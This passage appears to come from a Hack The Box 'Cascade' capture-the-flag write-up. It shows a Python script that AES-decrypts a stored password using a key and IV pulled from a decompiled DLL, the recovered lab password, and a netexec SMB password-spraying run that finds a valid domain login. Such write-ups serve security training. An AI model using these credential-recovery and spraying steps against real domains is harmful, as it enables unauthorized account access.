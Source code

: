 ![dnSpy - CascCrypto.dll (main)](./assets/screenshots/hackthebox_cascade_dnspy_casccryptodll_crypto.png)

`vim ./aes_decrypt_password.py`:
```python
import pyaes
from base64 import b64decode

key = b"c4scadek3y654321"
iv = b"1tdyjCbY1Ix49842"

aes = pyaes.AESModeOfOperationCBC(key, iv = iv)

decrypted = aes.decrypt(b64decode('BQO5l5Kj9MdErXx6Q6AGOw=='))
print(decrypted.decode())
```

`python3 ./aes_decrypt_password.py`:
```
w3lc0meFr31nd
```

`netexec smb 10.10.10.182 -u ./domain_users.txt -p 'w3lc0meFr31nd'`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\BackupSvc:w3lc0meFr31nd STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:w3lc0meFr31nd STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\a.turnbull:w3lc0meFr31nd STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd🔑
```
